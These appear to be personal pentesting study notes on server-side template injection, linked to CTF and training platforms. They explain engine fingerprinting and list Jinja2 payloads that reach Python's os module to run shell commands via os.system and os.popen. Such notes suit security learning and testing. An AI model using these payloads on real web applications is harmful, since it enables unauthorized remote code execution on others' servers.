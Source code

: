 # Server-Side Template Injection (SSTI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![jinja2_ssti](../../../../_badges/hacktricks/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.

To guess the template engine, we can try every token (`${{<%[%'"}}%\`) with expressions such as `7*7` or `7*'7'` and look for the output/errors.

* [Port Swigger SSTI Decision Tree](https://portswigger.net/web-security/images/template-decision-tree.png)
* [Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/)
</div><div>
</div></div>

<hr class="sep-both">

## Well-Known Template Engines

<div class="row row-cols-lg-2"><div>

#### Jinja2 Template Engine — Python

Refer to [JinJa2 Notes](/programming-languages/web/topics/templating/jinja2/index.md) if needed.

* Basic Fingerprint PoC: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
{{ lipsum.__globals__.os.popen('ls -1a').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -1a').read() }}
```

⚠️ Before, we were using longer payloads as [explained here](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/).
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `{{ self.__init__.__globals__.__builtins__.__import__('os') }}`
</div><div>
</div></div>